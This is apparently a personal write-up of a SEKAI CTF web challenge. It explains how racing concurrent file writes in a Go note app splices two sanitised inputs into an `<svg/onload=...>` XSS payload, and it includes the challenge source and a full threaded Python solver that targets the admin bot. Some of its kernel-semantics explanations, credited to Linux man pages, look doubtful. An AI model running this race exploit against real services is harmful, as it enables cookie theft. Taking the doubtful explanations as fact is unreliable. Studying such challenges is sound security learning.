









I've been away from the CTF scene for almost 7 months now. The last CTF I played
boosted my ego so much that people started calling me the "web guy", I knew I wasn't,
and so I played this year's SEKAI to put myself to the test.

The plan was to rely only on my skills and get as minimum of a help from the AI as possible.
This writeup documents my thought process while solving the first web challenge called `&lt;\w+`

TL;DR: The bluemonday strict policy + regex tag-stripping makes every individual write safe: no single write can produce `<tag>`. But the file write path uses `os.OpenFile` with `O_TRUNC` and zero locking. By racing a 67-byte write (`AAA...AAA<`) against an 87-byte write (`AAA...AAAsvg/onload=alert(1)>`), Linux's `i_size` semantics kick in: the smaller write won't shrink `i_size`, so the trailing 20 bytes from the larger write (`svg/onload=alert(1)>`) survive past the overwrite boundary. The resulting file reads as `<svg/onload=alert(1)>`, a live XSS payload frozen into the file. The admin bot's single GET reads it and executes the XSS, giving us the flag.

Enjoy the human experience :)

## 1. Challenge description

<video
  controls
  autoplay
  loop
  muted
  playsinline
  style="max-width: 100%; border-radius: 8px;">
  <source src="/videos/lt-w.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video>

The challenge is a simple note taking service. It's clear that some kind of sanitization is
taking place, and looking at how plain the DOM looks, it's clear that this sanitization
is taking place server-side:

###### *sanitization function:*

```go
func sanitizer(msg string) (string, error) {
	if len(msg) > 128 {
		return "", fmt.Errorf("too long message")
	}

	if utf8.ValidString(msg) == false {
		return "", fmt.Errorf("invalid character")
	}

	sanitized := bluemonday.StrictPolicy().Sanitize(msg)

	// &lt;\w+
	sanitized = strings.ReplaceAll(sanitized, "&lt;", "<")
	sanitized = strings.ReplaceAll(sanitized, "&gt;", ">")
	var reHTML = regexp.MustCompile(`<(/)?\w+`)

	sanitized = reHTML.ReplaceAllString(sanitized, "")

	return sanitized, nil
}
```

I will spare you from the whole source (until time comes), but essentially, I thought
the vulnerability is certainly in how sanitization works, after all, the [bluemonday](https://github.com/microcosm-cc/bluemonday)
HTML parser is different from chrome's, it's likely that a parser discrepancy would arise.

## 2. Initial recon

Let's check how the sanitizer works, at first:

* HTML is taken and stripped from EVERY tag, input like:

```html
<foo>bar</foo>
```

would yield the text `bar` and only that. Luckily for us:

* Opening and closing tags are reintroduced by decoding the `&lt;` and `&gt;` entity encoding.
If our input originally is:

```html
&lt;foo&gt;bar&lt;/foo&gt;
```

Bluemonday would look at it, deem it safe and pass it to the next instruction which replaces it to:

```html
<foo>bar</foo>
```

Awesome! We can see HTML again, well, not so fast:

* The next step clears any opening tags using the following regex:

```go
var reHTML = regexp.MustCompile(`<(/)?\w+`)

sanitized = reHTML.ReplaceAllString(sanitized, "")
```

It matches any alphanumeric character coming after `<` and prevents any chance for
opening a tag.

> We can generate closing tags using input like `<<a/script>`, but given the context,
> it's not very useful to us.

---

I spent a lotta time here. I wrote fuzzers to check if `<[any_non_alphanum_char]` would yield
a valid opening tag, even went as far as hallucinating some [ReDoS](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS) angle,
but a quick look at the code as well as this snippet from the HTML spec revealed the dead end.



Anything other than an ASCII Alpha would NOT trigger a tag open state.



> The HTML parser is a state machine.

Looking at how sanitization works. This is a dead end indeed.

## 3. Task analysis

If the sanitizer is THAT secure, we have to find a way to construct valid HTML.

If we zoom in a little bit, our input goes through several states:



If we can somehow catch a note at a dangerous state which has valid HTML, we
can trigger the XSS and get the flag. The natural progression now is to read
the note's lifecycle. Let's start from when we hit "submit" on a new note:

```go
// create note
mux.HandleFunc("POST /create", func(w http.ResponseWriter, r *http.Request) {
    if err := r.ParseForm(); err != nil {
        http.Error(w, "invalid form data", http.StatusBadRequest)
        return
    }

    sanitized, err := sanitizer(r.FormValue("message"))
    if err != nil {
        http.Error(w, err.Error(), http.StatusBadRequest)
        return
    }

    id := generateID()
    filePath := fmt.Sprintf("/app/notes/%s", id)

    f, err := os.OpenFile(filePath, os.O_WRONLY|os.O_CREATE|os.O_TRUNC, 0644)
    if err != nil {
        http.Error(w, err.Error(), http.StatusInternalServerError)
        return
    }
    defer f.Close()

    if _, err := f.Write([]byte(sanitized)); err != nil {
        http.Error(w, err.Error(), http.StatusInternalServerError)
        return
    }

    http.Redirect(w, r, fmt.Sprintf("/notes/%s", id.String()), http.StatusSeeOther)
})
```

Upon sanitization, we take our sanitized HTML, open *filePath* in write only mode,
create it if it doesn't exist, and **empty it** if it does.

I wanted to learn more about the flags so I checked the man page for openat(2), the syscall triggered by Go.



truncate huh? Linux has an explicit version which we can consult the man page of to see
how it works.



Interesting. The offset (the pointer we use to keep track of which data to read next)
is not updated. In the same man page, we see:



It means that writes of smaller size don't update the size of the file, nor the offset.
Concretely: a right write of 87 bytes extends the file to i_size = 87. Then a left write
of 67 bytes overwrites bytes 0-66, but since 67 < 87, i_size stays 87. The left write
lands at offset 0, not 67, because each `open()` returns a separate file descriptor and
each fd tracks its own position independently. The right write's fd advanced to 87, but
the left write's fd never moved, so it writes from the start. The trailing 20 bytes from
the right write survive past the overwrite boundary. If a read lands now, it sees a spliced
result: bytes 0-66 from the left (ending with `<`), bytes 67-86 from the right (starting
with `svg/onload=alert(1)>`). Together they form `<svg/onload=alert(1)>`, a valid XSS
payload. Neither write alone produces an opening tag, but the race stitches them together.



## 4. Exploitation

When I checked the source, I noticed there was no locking mechanism in place in note reading.

```go
// read note
mux.HandleFunc("GET /notes/{id}", func(w http.ResponseWriter, r *http.Request) {
    id := r.PathValue("id")
    if err := validateID(id); err != nil {
        http.Error(w, err.Error(), http.StatusBadRequest)
        return
    }

    filePath := fmt.Sprintf("/app/notes/%s", id)
    data, err := os.ReadFile(filePath)
    if err != nil {
        http.Error(w, "note not found", http.StatusNotFound)
        return
    }

    w.Header().Set("Content-Type", "text/html;charset=utf-8")
    w.Write(data)
})
```

Additionally, a PUT handler exists to update our notes:

```go
// edit note
mux.HandleFunc("PUT /notes/{id}", func(w http.ResponseWriter, r *http.Request) {
    id := r.PathValue("id")
    if err := validateID(id); err != nil {
        http.Error(w, err.Error(), http.StatusBadRequest)
        return
    }

    if err := r.ParseForm(); err != nil {
        http.Error(w, "invalid form data", http.StatusBadRequest)
        return
    }

    sanitized, err := sanitizer(r.FormValue("message"))
    if err != nil {
        http.Error(w, err.Error(), http.StatusBadRequest)
        return
    }

    filePath := fmt.Sprintf("/app/notes/%s", id)
    if _, err := os.Stat(filePath); os.IsNotExist(err) {
        http.Error(w, "note not found", http.StatusNotFound)
        return
    }

    f, err := os.OpenFile(filePath, os.O_WRONLY|os.O_TRUNC, 0644)
    if err != nil {
        http.Error(w, err.Error(), http.StatusInternalServerError)
        return
    }
    defer f.Close()

    if _, err := f.Write([]byte(sanitized)); err != nil {
        http.Error(w, err.Error(), http.StatusInternalServerError)
        return
    }

    http.Redirect(w, r, fmt.Sprintf("/notes/%s", id), http.StatusSeeOther)
})
```

That means two concurrent writes, individually safe, but combined dangerous would yield the XSS! Here's how:

1. First, we create a dummy note. This will be the vessel for our race.

2. Then, we understand the following: Because no lock exists, depending on how the kernel
schedules 2 concurrent writes, the last to be scheduled on a given byte wins that byte.
To increase our chances of overlap, we'll FIRE many writes of these two inputs:

* Left : `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA<`
* Right: `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAsvg/onload=alert(1)>`

If we're lucky (and we will be), the kernel will write `AAA...AAA<svg/onload=alert(1)` and our
XSS payload will emerge from the depths of race (corny I know~).

Below is the solver script:

#### solve.py

```py
#!/usr/bin/env python3
import threading, time, requests

PAYLOAD = "svg/onload=alert(1)>"
URL = "http://localhost:8080"
BASE = URL
NOTE_ID = None
OFFSET = 67
VOLLEY_SIZE = 16
MAX_VOLLEYS = 2000

def filler(n):
    return "A" * n

def build(offset):
   left = filler(offset - 1) + "<"
   right = filler(offset) + PAYLOAD
   return left, right, "<" + PAYLOAD

def create_note():
   r = requests.post(URL + "/create", data={"message": "x"}, allow_redirects=False)
   return r.headers["Location"].rsplit("/", 1)[1]

def _put(nid, msg, barrier):
   try:
       barrier.wait(timeout=10)
       requests.put(f"{URL}/notes/{nid}", data={"message": msg}, allow_redirects=False, timeout=10)
   except Exception:
       pass

def volley(nid, left, right, n):
   msgs = [left] * n + [right] * n
   barrier = threading.Barrier(len(msgs))
   threads = [threading.Thread(target=_put, args=(nid, m, barrier), daemon=True) for m in msgs]
   for t in threads: t.start()
   for t in threads: t.join()

def is_frozen(base, nid, target, probes):
   s = requests.Session()
   for _ in range(probes):
       try:
           if target not in s.get(f"{base}/notes/{nid}", timeout=10).text:
               return False
       except Exception:
           return False
   return True

def main():
   left, right, target = build(67)
   print('LEFT : ', left)
   print('RIGHT: ', right)
   nid = NOTE_ID or create_note()
   print(f"[+] base   : {BASE}")
   print(f"[+] note id: {nid}")
   print(f"[+] target : {target!r}")

   t0 = time.time()
   for i in range(1, MAX_VOLLEYS + 1):
       volley(nid, left, right, VOLLEY_SIZE)
       if is_frozen(BASE, nid, target, 8):
           time.sleep(1.0)
           if is_frozen(BASE, nid, target, 12):
               dt = time.time() - t0
               print(f"\n[+][+][+] FROZEN after {i} volleys ({dt:.1f}s)")
               print(f"[+] Served bytes statically contain: {target!r}")
               print(f"[+] SUBMIT THIS NOTE ID TO THE ADMIN BOT (guaranteed hit):\n\n      {nid}\n")
               print("[+] The bot's one GET will parse <svg onload=...> and")
               print("[+] console.log(document.cookie) -> FLAG appears in the bot log.")
               return nid
       if i % 20 == 0:
           print(f"[*] {i} volleys, not yet frozen ({time.time()-t0:.0f}s)...", flush=True)
   print("[-] failed to freeze within max-volleys")

if __name__ == "__main__":
   main()
```

Running this gives:



Browsing it:



And delivering it gives the flag: `SEKAI{l0g1c_l1v3s_1n_c0d3..._vuln_l1v3s_1n_t1m3!}`


## 5. Key Takeaways

1. **i_size survives small writes**: When a write is shorter than the current file size, Linux does not update `i_size`. Bytes beyond the new write boundary persist from the previous write, enabling cross-write data splicing.

2. **TOCTOU at the syscall boundary**: `open(O_TRUNC)` and `write()` are separate syscalls. Any concurrent read between them sees stale, partial, or zero-length content, creating a window for race conditions.

3. **Sanitizers don't compose under concurrency**: Two individually-safe sanitizer outputs, when merged at the filesystem level through a race, form a valid XSS payload. The sanitizer is sound in isolation but unsound under concurrent writes.

4. **Freeze-and-verify for single-shot bots**: The solver probes stability (8+12 reads) before submitting the note ID to the admin bot. Without this, the bot's single GET might hit a clean state. Freezing turns probabilistic overlap into a deterministic read.

## 6. References

1. **[bluemonday - Go HTML sanitizer](https://github.com/microcosm-cc/bluemonday)**: The strict-policy sanitizer used in the challenge. Strips all HTML tags by default.
2. **[open(2) - Linux manual page](https://man7.org/linux/man-pages/man2/open.2.html)**: Documents `O_TRUNC` behavior: file is truncated to length 0 on open.
3. **[write(2) - Linux manual page](https://man7.org/linux/man-pages/man2/write.2.html)**: Documents `i_size` semantics: writes shorter than the file size do not update `i_size` or the offset.
4. **[HTML spec - Tag open state](https://html.spec.whatwg.org/multipage/parsing.html#tag-open-state)**: Defines that only ASCII alpha characters trigger a tag open state, confirming the regex dead end.
5. **[OWASP ReDoS](https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS)**: Reference for the ReDoS avenue explored and discarded during initial recon.


